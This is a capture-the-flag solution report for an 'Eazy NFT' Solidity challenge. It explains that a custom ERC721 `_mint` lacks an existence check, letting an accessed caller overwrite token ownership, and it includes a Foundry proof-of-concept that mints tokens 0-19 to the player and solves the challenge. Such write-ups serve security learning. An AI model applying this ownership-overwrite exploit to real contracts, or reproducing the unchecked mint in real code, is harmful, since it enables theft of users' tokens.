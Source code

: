 # Eazy NFT - Solution Report

## Vulnerability

The main vulnerability in this challenge lies in the `_mint` function of the `ERC721` contract. The problematic code is in lines 179-184:

```solidity
function _mint(address to, uint256 tokenId) internal virtual {
    unchecked {
        _balances[to] += 1;
    }
    _owners[tokenId] = to;
    emit Transfer(address(0), to, tokenId);
}
```

This `_mint` function has a critical flaw: it does not check if the token already exists before minting. This allows for overwriting the ownership of existing tokens.

The vulnerability is exploitable through the `mint` function in the `ET` (EazyToken) contract:

```solidity
function mint(address to, uint256 tokenId) public {
    require(access[_msgSender()], "ET: caller is not accessed");
    _mint(to, tokenId);
}
```

Since the player is granted access in the constructor of the `ET` contract, they can call this `mint` function freely.

The combination of these factors creates a situation where the player can overwrite the ownership of any existing token, including those initially minted to addresses 0-9, as well as mint new tokens with IDs up to 19. This allows the player to gain ownership of all tokens with IDs 0-19 without actually having to acquire them through legitimate transfers.

## Proof of Concept (PoC)

The following Solidity code demonstrates how to exploit the vulnerability and solve the challenge:

```solidity
contract ChallengeTest is Test {
    Challenge public challenge;
    ET public et;
    address public player;

    function setUp() public {
        player = address(this);
        challenge = new Challenge(player);
        et = challenge.et();
    }

    function testSolveChallenge() public {
        // Step 1: Gain Access (already granted in constructor)

        // Step 2 & 3: Overwrite existing tokens (0-9) and mint new tokens (10-19)
        for (uint256 i = 0; i < 20; i++) {
            et.mint(player, i);
        }

        // Step 4: Solve the challenge
        challenge.solve();
        assertTrue(challenge.isSolved(), "Challenge should be solved");
    }
}
```
